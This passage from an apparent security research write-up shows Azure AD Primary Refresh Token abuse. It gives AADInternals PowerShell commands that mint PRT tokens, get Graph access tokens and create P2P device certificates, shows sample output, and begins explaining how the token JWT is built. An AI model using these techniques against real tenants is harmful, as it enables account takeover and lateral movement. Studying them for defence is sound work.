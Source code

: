 # Generate a new PRTToken with nonce
$prtToken = New-AADIntUserPRTToken -RefreshToken $PRT -SessionKey $SKey -GetNonce

# Get an access token for AAD Graph API and save to cache
Get-AADIntAccessTokenForAADGraph -PRTToken $prtToken -SaveToCache
{{< /highlight>}}

At some point in September 2020 Microsoft changed (fixed?) the authentication flow of PRTTokens to require a nonce. 

With the session key and PRT, the new PRT tokens can be created as long as the PRT is valid.

As <a href="https://medium.com/@mor2464/azure-ad-pass-the-certificate-d0c5de624597" target="_blank">@rubin_mor</a> demonstrated,
we can also use the session key and PRT to get a **Azure AD P2P certficate**. The certificate, in turn, 
can be used to get access to other computers joined to the same Azure AD tenant.

Continuing the previous example, we can get the certificate with AADInternals:
{{< highlight powershell >}}
# Generate a new P2P certificate
New-AADIntP2PDeviceCertificate -RefreshToken $PRT -SessionKey $SKey
{{< /highlight>}}
Output:
```
User certificate successfully created:
  Subject:         "CN=TestU@contoso.com, CN=S-1-12-1-xx-xx-xx-xx, DC=0f73eaa6-7fd6-48b8-8897-e382ba96daf4"
  Issuer:          "CN=MS-Organization-P2P-Access [2020]"
  Cert thumbprint: A7F1D1F134569E0234E6AA722354D99C3AA68D0F
  Cert file name : "TestU@contoso.com-P2P.pfx"
  CA file name :   "TestU@contoso.com-P2P-CA.der"
```
The generated certificate can be used with <a href="https://github.com/morRubin/AzureADJoinedMachinePTC" target="_blank">AzureADJoinedMachine</a> by @rubin_mor
to access other Azure AD joined machines.

## How to create a PRT token?

It was quite easy to dump required information using Mimikatz. 
But how is the PRT token actually created? The answer is by creating a JWT and signing it with a key that is derived from **context** and **session key**.

The **context** is a Base 64 encoded random byte array (24 bytes) and it is added to the JWT header:
**Note!** All slashes '/' must be escaped with back slashes '\'
{{< highlight json >}}
{
	"alg": "HS256",
	"typ": "JWT",
	"ctx": "x9XSurmy8TmcsJUgxq\/IT5TJg73fgiKj"
}
{{< /highlight>}}

